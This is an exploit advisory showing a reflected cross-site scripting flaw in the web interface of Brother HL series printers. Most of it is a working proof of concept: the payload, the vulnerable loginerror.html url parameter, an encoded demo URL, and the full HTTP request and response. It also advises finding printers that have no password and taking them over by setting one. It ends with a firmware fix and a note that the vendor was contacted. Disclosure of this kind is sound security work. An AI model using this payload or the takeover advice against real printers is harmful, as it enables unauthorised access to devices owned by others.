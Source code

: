 # Exploit Title: [ XSS at Brother HL series printers]


# Date: [30.05.2018]

# Exploit Author: [Huy Kha]

# Vendor Homepage: [http://support.brother.com]

# Software Link: [ Website ]

# Version: Brother HL series printers.

# Tested on: Mozilla FireFox

# Reflected XSS Payload :

"--!><Svg/OnLoad=(confirm)(1)>"

# Description : Starting searching for printers without having a password.
When you see a yellow bar with ''Configure the password'' you can take over the full printer by putting a password on it.


# PoC :
If you want to execute the XSS you need to be loged into the web interface first.

# Example :

1. Go to the following url: http://127.0.0.1/
2. Login with ''admin'' as password
3. Intercept now the request with Burpsuite
4. The XSS exist in the loginerror.html?url= parameter

4. Demo URL: http://127.0.0.1/etc/loginerror.html?url=%2Fnet%2Fnet%2Fservice_detail.html%3Fservice%3D%2522--!%253E%253CSvg%2FOnLoad%3D(confirm)(1)%253E%2522%26pageid%3D241


# Request :

GET /etc/loginerror.html?url=%2Fnet%2Fnet%2Fservice_detail.html%3Fservice%3D%2522--!%253E%253CSvg%2FOnLoad%3D(confirm)(1)%253E%2522%26pageid%3D241 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: nl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


# Response :

HTTP/1.1 200 OK
Cache-Control: no-cache
Content-Length: 3389
Content-Type: text/html
Content-Language: nl
Connection: close
Server: debut/1.20
Pragma: no-cache

<?xml version="1.0" encoding="iso-8859-1"?><!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd"><html lang="nl" xmlns="http://www.w3.org/1999/xhtml" xml:lang="nl"><head><meta http-equiv="Content-Script-Type" content="text/javascript" /><meta http-equiv="content-style-type" content="text/css" /><meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" /><script type="text/javascript" src="/common/js/ews.js"></script>
 <link rel="stylesheet" type="text/css" href="../common/css/common.css" />
 <link rel="stylesheet" type="text/css" href="../common/css/ews.css" /><title>Brother HL-L2340D series</title></head><body><div id="baseFrame"><div id="frameContainer"><div id="headerFrameContainerLeft"><div id="headerFrameContainerRight"><div id="headerFrameInner"><div id="headerFrame"><div id="modelName"><h1>HL-L2340D series</h1><div class="SetBox" id="SetBoxAuthRight"><div id="SetBoxAuthLeft"><form method="post" action="/general/status.html"><div>Log&#32;in<input type="password" id="LogBox" name="B1d6" /><input type="hidden" name="loginurl" value="/net/net/service_detail.html?service="--!><Svg/OnLoad=(confirm)(1)>"&pageid=241"/><input id="login" type="submit" value="&nbsp;" /></div></form></div></div></div><div id="corporateLogo"><img src="/common/images/logo.gif" alt="Brother" /></div></div><div id="solutions"><div><span><a href="http://solutions.brother.com/cgi-bin/solutions.cgi?MDL=prn088&LNG=en&SRC=DEVICE">Brother<br />Solutions&#32;Center</a></span></div></div><div id="tabMenu"><ul><li><ul><li class="selected"><p>Algemeen</p></li></ul></li></ul></div></div></div></div><div id="mainFrameContainer"><div id="mainFrameTopLeft"><div id="mainFrameTopRight"><div id="mainFrameTopInner"><div id="subTabMenu">&nbsp;</div></div></div></div><div id="mainFrameInner"><div id="subMenu"><div><a href="/general/status.html">Status</a></div><div><a href="/general/reflesh.html" class="subPage">Interval&#32;voor&#32;autom.&#32;vernieuwen</a></div><div><a href="/general/information.html?kind=item">Onderhoudsinformatie</a></div><div><a href="/general/lists.html">Lijsten/Rapporten</a></div><div><a href="/general/find.html">Apparaat&#32;zoeken</a></div><div><a href="/general/contact.html">Contactpersoon&#32;&&#32;locatie</a></div><div><a href="/general/sleep.html">Slaapstand</a></div><div><a href="/general/powerdown.html">Automatisch&#32;uitschakelen</a></div><div><a href="/general/language.html">Taal</a></div><div><a href="/general/panel.html">Paneel</a></div><div><a href="/general/replacetoner.html">Toner&#32;vervangen</a></div></div><div id="rightFrameContainer"><div id="rightFrame"><div id="mainContent"><div id="pageTitle"><h2>Log&#32;in</h2></div><div id="pageContents"><div class="contentsGroup"><p class="noteMessage">Om&#32;deze&#32;pagina&#32;te&#32;openen&#32;moet&#32;u&#32;inloggen.&#32;Log&#32;in&#32;s.v.p.</p></div></div></div></div></div><script type="text/javascript"><!--
SetMinHeight();
// --></script></div><div id="mainFrameBottomLeft"><div id="mainFrameBottomRight"><div id="mainFrameBottomInner"></div></div></div></div><div id="footerFrameContainer"><div id="copyright">Copyright(C) 2000-2014 Brother Industries, Ltd. All Rights Reserved.</div><div id="topBack"><a href="#">Top<img src="/common/images/ic_pt.gif" alt="Top" /></a></div></div></div></div></body></html>



# How to fix it? : Update the printer to Firmware 1.16 and set a new password.

# Screenshot : https://imgur.com/a/3OVTSZ4


# Note: The vendor has been contacted on 30-5-2018.